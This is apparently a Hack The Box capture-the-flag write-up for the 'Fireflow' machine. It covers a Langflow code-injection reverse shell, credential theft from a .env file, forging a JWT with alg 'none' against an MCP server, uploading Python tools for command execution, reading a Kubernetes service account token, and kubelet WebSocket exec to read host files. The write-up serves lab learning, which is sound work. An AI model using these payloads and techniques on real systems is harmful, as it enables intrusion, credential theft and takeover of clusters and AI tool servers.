## Fireflow Hack The Box

Made by: **Deivid_Blazk**

# Enumeration and reconnaisance

## nmap scan

`sudo nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv <IP> -oG allPorts`

Discovered ports:
- 22/tcp = ssh
- 443/tcp = https / web service
## nmap services enumeration

`sudo nmap -p22,443 -sCV <IP> -oN targeted`



- *443: HTTPS > NGINX. DNS = fireflow.htb

writing `/etc/hosts` we can add fireflow.htb.
`sudo echo <IP> fireflow.htb >> /etc/hosts`
## Exploring the web service

There's a simple landing page with a buttom that redirects to a AI service, you need to add the subdomain to your `/etc/hosts` too.
`sudo echo <IP> flow.fireflow.htb >> /etc/hosts`



The chat bot doesn't response anything, always response the same thing, this can be a configuration to evite any type of prompt injection.


Exploring the web page, i found a login panel, you can create an account, but can't log in, because the request needs to be accepted by the admin.
So we need to explore more.



With burpsuite listening, y was exploring the page, looking for functions, and looking in http history, i found a endpoint `/api/v1/version` that shows the version of LangFlow.

**`langflow 1.8.2`**



# Explotation

With `searchsploit` or `ExploitDB` i found an exploit for `langflow 1.9.0` or lowest.  
**`CVE-2026-33017`**



## How does the exploit works?
1. **Recollect of parameters:** the script require an url objetive (`-u`), ID of the flow running(`-f`), attacker ip and port(`-l`, `-p`) to make a reverse shell, and a session cookie (`-c`).
2. **Payload:** Generate an object JSON that simulate a flow of Langflow.
3. **Code injection:** inside of the JSON node (`data -> nodes -> data -> node -> template -> code -> value`), inject Python code.
4. **Execution via API:** Send this JSON with `POST` to the endpoint `/api/v1/build_public_tmp/{flow_id}/flow`. this endpoint is used for Langflow to compile, make and execute flows.
5. **Reverse shell:** when the Langflow server process the petition, load and execute the Python code injected. The code connect back to the attacker machine, giving a reverse shell.



### Client_id parameter


### flow id parameter

And how we can't log in and make a flow, i was investigating, and navigating, until i found an endpoint in the api with a public flow without need of an account.
`/api/v1/flows/public_flow/<flow_id>`



### listen with netcat
`nc -nlvp 4444`


### execute the exploit

`python payload.py -l <Your_ip> -p <Your_port> -u https://flow.fireflow.htb -f <flow_id> -c <client_id>`



### shell obtained


## Scalling privilages

exploring multiples methods to scale privilages, i was looking for possibles sensitive files with the command `find` . found a `.env` file in `/etc/langflow/.env` it contains some credentials to `flow.fireflow.htb`.

`find / -name .env 2>/dev/null`
`cat /etc/langflow/.env`


## admin panel
the admin panel have multiple functions, you can make flows, can edit flows, etc. etc.


## su nightfall

exploring i looked in `/home` we can see the user `nighfall`


i tried to use the credentials that we obtained previusly and it worked.


and connected via SSH to get an stable shell



## MCP Servers
in the file `/home/nightfall/.mcp/config.json` we can see the parameters to log into a service in localhost of the victim machine.
I thinked that it's an internal service that needs auth to make some functions, but i was not shure what service what was it.
It give us the port where it is running, credentials and an endpoint with the version of the service.
- `server: http://<victim_ip>:30080`: port where the local service is running.
- `status_endpoint: /api/v1/version`: endpoint to watch status and version.



### Local ports openned
how we saw that an mcp server was running, i was looking for some more ports or services running.
investing we can see a lot of ports openned:
`ss -tlnp`
how we are not root, we can't see what service is running in those ports, so i was deducting what si running for the number of openned port.

### Network Port Analysis & Service Deductions

### `127.0.0.1:7860`

- **Deduction:** Langflow UI
- **Details:** Known default port for the Langflow user interface.

---

### `0.0.0.0:443`

- **Deduction:** Reverse Proxy / Ingress Controller
- **Details:** Standard HTTPS port. Typical setup in Kubernetes environments using Traefik or Nginx.

---

### `0.0.0.0:22`

- **Deduction:** SSH Server
- **Details:** Universal SSH port.

---

### `127.0.0.1:6444`

- **Deduction:** k3s API Server
- **Details:** Custom port adjacent to 6443 (K8s API).
- **Context:** 6443 is the default Kubernetes port, whereas 6444 is the "shifted" port used by k3s.

---

### `127.0.0.1:6443`

- **Deduction:** k3s API Server
- **Details:** Exact port 6443 (default internal port).

---

### `*:10250`

- **Deduction:** Exposed Kubelet API
- **Details:** Exact kubelet port, accessible from all network interfaces.

---

### `*:9100`

- **Deduction:** Prometheus Node Exporter
- **Details:** Exact default port for the node-exporter.

---

### `127.0.0.1:10249`

- **Deduction:** kube-proxy Metrics
- **Details:** Port within the standard Kubernetes range.

---

### `127.0.0.1:10248`

- **Deduction:** kube-proxy Health Check
- **Details:** Port within the standard Kubernetes range (healthz endpoint).

---

### `127.0.0.1:10259`

- **Deduction:** kube-scheduler
- **Details:** Exact default port for the kube-scheduler (k3s).

---

### `127.0.0.1:10258`

- **Deduction:** Cloud Controller Manager
- **Details:** Exact default port for the cloud-controller-manager.

---

### `127.0.0.1:10257`

- **Deduction:** kube-controller-manager
- **Details:** Exact default port for the kube-controller-manager (k3s).

---

### `127.0.0.1:10256`

- **Deduction:** kube-proxy
- **Details:** Exact default port for kube-proxy.

---

### `127.0.0.1:53`

- **Deduction:** CoreDNS
- **Details:** Standard DNS port (typical in Kubernetes environments).

---

### `127.0.0.1:10010`

- **Deduction:** Secondary k3s Service
- **Details:** Custom high port, likely hosting another internal k3s service.

---

### `127.0.0.1:44851`

- **Deduction:** Custom k3s Service / Internal NodePort
- **Details:** Random high port. Likely a custom k3s service or an internally exposed NodePort.

### Tunneling

Make a tunnel via ssh :
`ssh -L 30080:127.0.0.1:30080 -L 6444:127.0.0.1:6444 nightfall@<IP> -N`


## MCP version, auth and functions

tried to watch if tunneling has been executed and it works


**let's try to auth with the steps that we found in `/home/nightfall/.mcp/config.json`**

- There we can see that the service is an MCP ( however we saw that in the `.mcp` path)
- Auth: the auth protocol is a JWT, but we can see that the sign algorithm can be an `HS256` or an `none`, so if that is real, we can scale privilages, changing roles and singin with `none`
- endpoints: there's some endpoints that maybe contains some functions of the API, we can see diferents endpoints like `/mcp, /api/v1/auth and /api/v1/tools` every one with specific `HTTP` methods, and we can see that the the `/mcp` maybe needs a json web token to be acceeded, and the endpoint `/api/v1/auth` only accepts  `POST`, we can try to use the credentials that we founded before, and the endpoint `/api/v1/tools` can use `GET` as a normal user and `POST` only as admin user.



### Authenticate with credentials
**endpoint `/api/v1/auth`**
using the credentials that we found previusly, we can get a token in the endpoint `/api/v1/auth` method `POST`  .


### endpoint /api/v1/tools

we don't need a token to access to this endpoint with method `GET` , but we will need to make a methond `POST`, but, we don't have the admin role, with this token we have limited permitions.


## JWT with admin role and signed with alg: none

Using an extension of burpsuite named **JWT editor**, with this you can decode the JWT and modify it, i changed the `sub` and `role` to **`admin`** and algorithm `alg` to **`none`**.
changin the payload and header we obtain a new JWT, with admin perms.



## Upload tools with scripts

First you need to set the token as a variable, how i'm in a OS based en arch (`cachy os`) the way to set a variable it's a bit diferent, in debian its just like this: `VARIABLE="<token>"`
My variable is named `TOKEN_NONE` because `none` i'ts the algorithm in header that we used to get admin.


#### test upload

In header you must have your token, and in the body the name of the tool that you are going to upload, the description of the tool, and code, code is executing python, there you can write Python code and execute commands.

### curl to test upload: 
curl -s -X POST http://127.0.0.1:30080/api/v1/tools \
  -H "Authorization: Bearer $TOKEN_NONE" \
  -H "Content-Type: application/json" \
  -d '{
    "name":"test_shell",
    "description":"Test command execution",
    "code":"import subprocess; subprocess.run([\"id\"])"
  }'


Tool uploaded.

### Execute tool via `/mcp`

curl -s -X POST http://127.0.0.1:30080/mcp \
  -H "Authorization: Bearer $TOKEN_NONE" \
  -H "Content-Type: application/json" \
  -d '{
    "jsonrpc":"2.0",
    "id":1,
    "method":"tools/call",
    "params":{"name":"test_shell","arguments":{}}
  }'

the MCP server executes the Python code inside of a pod of Kubernetes. now we have a RCE in the cluster.
the user that executes te commands it's MCP. So we are inside of the machine making RCE via python as mcp user.


## Service account JWT

Testing diferents commands and investigating, i found a service account JWT.

**upload tool:**

curl -s -X POST http://127.0.0.1:30080/api/v1/tools \
  -H "Authorization: Bearer $TOKEN_NONE" \
  -H "Content-Type: application/json" \
  -d '{
    "name":"read_token",
    "description":"Read k8s service account token",
    "code":"print(open(\"/var/run/secrets/kubernetes.io/serviceaccount/token\").read())"
  }'



**execute tool:**
curl -s -X POST http://127.0.0.1:30080/mcp \
  -H "Authorization: Bearer $TOKEN_NONE" \
  -H "Content-Type: application/json" \
  -d '{
    "jsonrpc":"2.0","id":2,"method":"tools/call",
    "params":{"name":"read_token","arguments":{}}
  }'



## testing diferents tools

this tool give us the metadata of namespace and pod.

**upload**:

#### Note:
You can make a reverse shell to your machine, and execute commands directly without upload and execute, but i use burpsuite to see the responses json with clarity and cleans. because some responses can be so long, and burpsuite can parse this better than a machine or jq sometimes.


json: 

{
  "name": "pod_info",
  "description": "Get pod info",
  "code": "import os\nprint('HOSTNAME:', os.environ.get('HOSTNAME',''))\nprint('KUBERNETES_SERVICE_HOST:', os.environ.get('KUBERNETES_SERVICE_HOST',''))\nprint('KUBERNETES_SERVICE_PORT:', os.environ.get('KUBERNETES_SERVICE_PORT',''))\nprint(open('/var/run/secrets/kubernetes.io/serviceaccount/namespace').read())"
}

**execute**:
we can see the hostname, the kubernetes service host and kubernetes service port.


### SelfSubjectRulesReview:
from pod, we can ask to the API of k8s what perms the token contains.

**upload:**


json:
{
  "name": "check_rbac",
  "description": "Check RBAC permissions",
  "code": "import urllib.request,json,os\ntoken=open('/var/run/secrets/kubernetes.io/serviceaccount/token').read().strip()\nk8s=os.environ.get('KUBERNETES_SERVICE_HOST','10.43.0.1')\nreq=urllib.request.Request(f'https://{k8s}:443/apis/authorization.k8s.io/v1/selfsubjectrulesreviews')\nreq.add_header('Authorization',f'Bearer {token}')\nreq.add_header('Content-Type','application/json')\ndata=json.dumps({'apiVersion':'authorization.k8s.io/v1','kind':'SelfSubjectRulesReview','spec':{'namespace':'default'}}).encode()\nimport ssl\nctx=ssl.create_default_context()\nctx.check_hostname=False\nctx.verify_mode=ssl.CERT_NONE\nresp=urllib.request.urlopen(req,data=data,context=ctx)\nprint(resp.read().decode())"
}

**execute:**



Result: the service account mcp-sa have perms to get nodes/proxy. we can access to kubelet API from any nodo with:
`GET /api/v1/nodes/{node}/proxy/{path}`

### List pods from cluster with kubelet

Use the token that we obtained and try to `GET` this endpoint.
`/api/v1/nodes/fireflow/proxy/pods`
`Host: 127.0.0.1:6444`

So we can see all the pods from cluster with kubelet.



## find pods with privileged=true or hostPath mounts

`set MCP_TOKEN "eyJhbGciOiJSUzI1NiIsImtpZCI6ImFQRTZ5R3JrSUpadmdid19HcHBTRTBYUFJZWUxqeGcxUHJIaFJjTEVSdm8ifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiLCJrM3MiXSwiZXhwIjoxODE2OTMxODU0LCJpYXQiOjE3ODUzOTU4NTQsImlzcyI6Imh0dHBzOi8va3ViZXJuZXRlcy5kZWZhdWx0LnN2Yy5jbHVzdGVyLmxvY2FsIiwianRpIjoiMzg3ZjAyODctNmMyMy00MGQ5LTk2ZDYtMzRhNTIyNGJiZmQyIiwia3ViZXJuZXRlcy5pbyI6eyJuYW1lc3BhY2UiOiJkZWZhdWx0Iiwibm9kZSI6eyJuYW1lIjoiZmlyZWZsb3ciLCJ1aWQiOiI4NzI5MTU4OC0wMTc4LTRlNDItYTk5OC00MWE1MmZhNzNiOGUifSwicG9kIjp7Im5hbWUiOiJtY3Atc2VydmVyLTU0NDY0Y2I0NzUtMjl6dGYiLCJ1aWQiOiI3MDJhZmViYi00ZjUxLTRlZDUtYWE5OC1hYjZiMjU1M2E3MjgifSwic2VydmljZWFjY291bnQiOnsibmFtZSI6Im1jcC1zYSIsInVpZCI6ImE1MzRmNTUxLWIyYjEtNGU2Ni1iZGE1LWU5YjVlMmE1NjAyYyJ9LCJ3YXJuYWZ0ZXIiOjE3ODUzOTk0NjF9LCJuYmYiOjE3ODUzOTU4NTQsInN1YiI6InN5c3RlbTpzZXJ2aWNlYWNjb3VudDpkZWZhdWx0Om1jcC1zYSJ9.LnrQ253_Hs4__3Xovb4yF-rosdJ-RyTgPYwizO6CwciRJEzetph_yblOWzeBQiXGgsCvGJmgfPFP2W6jd-zI5jxa49PCrYPnjx0DgZg7j-9fWQ0r6LDxdR_0kIxfVbtdFEME_VhLyZ-XEncpgI3N7-g_4QjeGvG_zL3RAqJb0QD-Uw2sP_XGvawdskrdk0aEFUpVD9xURcUDvH2FnYXggTvwPxjDw--a1-uJhVsfh_JYFDz0hgTTYa4pPBk86E-1_D-EicEY71WRehoTQ6OJ8PYDGnM6uU8QdyARdX8If20PWvGnEkiCZbSvXcpZlvoEz1ZTIjXH33WV4nRhqtCUBg"`

curl -sk https://127.0.0.1:6444/api/v1/nodes/fireflow/proxy/pods \
  -H "Authorization: Bearer $MCP_TOKEN" | jq '.items[] | select(.spec.containers[].securityContext.privileged==true) | .metadata.namespace + "/" + .metadata.name'



or use burpsuite to see it clean and full data.



interpretation:
- `priviliged: true` -> run as root, without restrictions of container.
- `runAsUser: 0` -> UID root inside of container.
- `hostPath: /` mounted in `/host/root` -> All filesystem of host can be access from container.

# WebSocket exec kubelet

### why direct and not via proxy?

The proxy node (`/api/v1/nodes/fireflow/proxy/...`) have limits.
- GET works (read pods, healthz)
- POST/PUT for exec returns 403 forbidden
- The proxy doesn't support WebSocket uprgade for exec.

**Solution**: WebSocket connection direct to the kubelet in `10.42.1.1:10250`

But this port it's only accesible from inside of cluster (pods red). The ip `10.42.1.1` is the gateway of the CNI (bridge `cni0` in the host). From the pod MCP we can access.

### Register tool with WebSocket exec

**Upload:**


json payload:
{
  "name": "pwn",
  "description": "exec in node-exporter pod",
  "code": "import asyncio,json,ssl,urllib.parse\ntoken=open('/var/run/secrets/kubernetes.io/serviceaccount/token').read().strip()\nnamespace='monitoring'\npod='prometheus-prometheus-node-exporter-nmntq'\ncontainer='node-exporter'\nssl_ctx=ssl.create_default_context()\nssl_ctx.check_hostname=False\nssl_ctx.verify_mode=ssl.CERT_NONE\nasync def exec_command(cmd_args):\n    import websockets\n    params=[('command',arg) for arg in cmd_args]\n    params+=[('input','1'),('output','1')]\n    query=urllib.parse.urlencode(params)\n    url=f'wss://10.42.1.1:10250/exec/{namespace}/{pod}/{container}?{query}'\n    headers={'Authorization':f'Bearer {token}'}\n    subprotocols=['v4.channel.k8s.io']\n    outputs=[]\n    try:\n        async with websockets.connect(url,additional_headers=headers,ssl=ssl_ctx,subprotocols=subprotocols,close_timeout=5,max_size=10**7) as ws:\n            try:\n                while True:\n                    raw=await asyncio.wait_for(ws.recv(),timeout=5)\n                    if isinstance(raw,bytes) and len(raw)>1:\n                        outputs.append(raw[1:].decode('utf-8',errors='replace'))\n            except (asyncio.TimeoutError,websockets.exceptions.ConnectionClosed):\n                pass\n        return ''.join(outputs).rstrip()\n    except Exception as e:\n        return f'ERROR: {str(e)[:200]}'\nasync def main():\n    print(await exec_command(['cat','/host/root/root/root.txt']))\n    print(await exec_command(['cat','/host/root/home/nightfall/user.txt']))\nasyncio.run(main())"
}

**execute:**
we got the root.txt flag and user.txt flag.



## Conclusion
This machine i'ts in my opinion, a Hard machine, because the scalle of privilages requires knowledge of kubernetes, mcp servers, investigate endpoints, and the information it's aviable but hard to find, it requires a lot of testing, try and error, but give us a lot of knowledge about how to exploit kubernetes missconfigurations.